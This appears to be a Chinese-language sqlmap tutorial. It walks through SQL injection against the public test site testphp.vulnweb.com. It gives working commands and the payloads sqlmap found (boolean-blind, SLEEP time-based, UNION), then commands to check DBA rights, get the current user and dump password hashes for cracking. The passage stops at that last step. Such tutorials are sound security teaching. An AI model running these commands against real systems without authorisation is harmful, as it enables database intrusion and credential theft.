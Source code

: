 # 常规流程

## 判断注入

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1" --random-agent --batch
```

```bash
---
参数: artist (GET)
    类型: boolean-based blind
    标题: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 9068=9068

    类型: time-based blind
    标题: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: artist=1 RLIKE SLEEP(5)

    类型: UNION query
    标题: Generic UNION query (NULL) - 3 columns
    Payload: artist=-6045 UNION ALL SELECT CONCAT(0x7162717671,0x676f62727961545065776a6b6d786b44584c787664505a446e6a50484f737564537261656a414749,0x7170706b71),NULL,NULL-- -
---
[20:58:40] [INFO] 后端DBMS是 MySQL
web 服务 operating system: Linux Ubuntu
web 应用技术: Nginx 1.19.0, PHP 5.6.40
后端 DBMS: MySQL >= 5.0.12
```

## 获取基础敏感信息

1、指定数据库，判断当前用户权限  `--is-dba`

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch --is-dba
```

```bash
当前用户是DBA: False
```

2、`--current-user` 用户连接的用户

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch --current-user
```

```
当前用户: 'acuart@localhost'
```

3、`--passwords` 获取数据库的密码 使用这个命令 sqlmap找到密文时，会提示你是否进行hash破解 如果需要选择合适的字典。
